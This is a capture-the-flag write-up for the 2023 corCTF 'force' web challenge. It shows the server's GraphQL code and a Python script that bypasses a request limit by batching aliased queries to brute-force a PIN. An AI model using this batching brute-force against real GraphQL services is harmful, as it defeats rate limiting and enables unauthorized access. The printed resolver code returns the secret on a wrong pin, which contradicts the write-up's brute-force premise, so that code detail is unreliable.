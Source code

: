 ```yaml
---
title: 2023 corCTF - force
author: Gr33nM0nk3y
date: 2023-07-31 00:00:00 +0700
categories: [Write-ups, 2023_corCTF]
tags: [Web Exploitation, write-ups]
---
```


* 118 solves / 124 points
* author: larry

## Description

> Unbreakable vault door!

### Attached

[force.tar.gz](https://static.cor.team/uploads/a9d33f3445ab361cb58b31918d99a2a26f47b86dc55e77ee881d61a5d2bd2da7/force.tar.gz)

```javascript
import fastify from 'fastify'
import mercurius from 'mercurius'
import { randomInt } from 'crypto'
import { readFile } from 'fs/promises'

const app = fastify({
    logger: true
});
const index = await readFile('./index.html', 'utf-8');

const secret = randomInt(0, 10 ** 5); // 1 in a 100k??

let requests = 10;

setInterval(() => requests = 10, 60000);

await app.register(mercurius, {
    schema: `type Query {
        flag(pin: Int): String
    }`,
    resolvers: {
        Query: {
            flag: (_, { pin }) => {
                if (pin != secret) {
                    return secret;
                }
                return process.env.FLAG || 'corctf{test}';
            }
        }
    },
    routes: false
});

app.get('/', (req, res) => {
    return res.header('Content-Type', 'text/html').send(index);
});

app.post('/', async (req, res) => {
    if (requests <= 0) {
        return res.send('no u')
    }
    requests --;
    return res.graphql(req.body);
});

app.listen({ host: '0.0.0.0', port: 80 });
```

## Analyzation

This challenge requires knowledge in [graphql](https://graphql.org/learn/queries/).

Check these lines
```javascript
const secret = randomInt(0, 10 ** 5); // 1 in a 100k??

await app.register(mercurius, {
    schema: `type Query {
        flag(pin: Int): String
    }`,
    resolvers: {
        Query: {
            flag: (_, { pin }) => {
                if (pin != secret) {
                    return secret;
                }
                return process.env.FLAG || 'corctf{test}';
            }
        }
    },
    routes: false
});
```

So we need to find the correct ```pin``` in 100k numbers.

The author limits the requests to 10
```javascript
let requests = 10;
```

The answer is so simple. Just send 10000 queries in 1 payload.

Got some troubles in queries? Check [stackoverflow.com](https://stackoverflow.com/questions/50462944/is-it-possible-to-query-the-same-field-multiple-times-with-graphql) and [graphql.org](https://graphql.org/learn/queries/#aliases).

## Solution

```python
import requests

FLAG_PREFIX = "cor"
URL = "https://web-force-force-40650221ed658a78.be.ax/"
headers = {
    'Content-Type': 'text/plain;charset=UTF-8',
}

payload = ''

for i in range(10 ** 5 + 1):
    payload = payload + 'i' + str(i) + ': flag(pin: ' + str(i) + ')\n'
    if i % (10 ** 4) == 0:
        print(i)
        payload = '{' + payload + '}'
        response = requests.post(URL, data=payload, headers=headers)

        if FLAG_PREFIX in response.text:
            index = response.text.find(FLAG_PREFIX)
            flag = ''
            while response.text[index] != '}':
                flag = flag + str(response.text[index])
                index += 1
            flag = flag + '}'
            print("flag: {}".format(flag))
            break
        payload = ''
```

The flag is (crazy)
```
corctf{S                T                  O               N                   K                 S}
```

(it contains a lot of space, yeah).

## Summarization

- [Graphql language](https://graphql.org/learn/queries/)
- [Graphql alias](https://graphql.org/learn/queries/#aliases)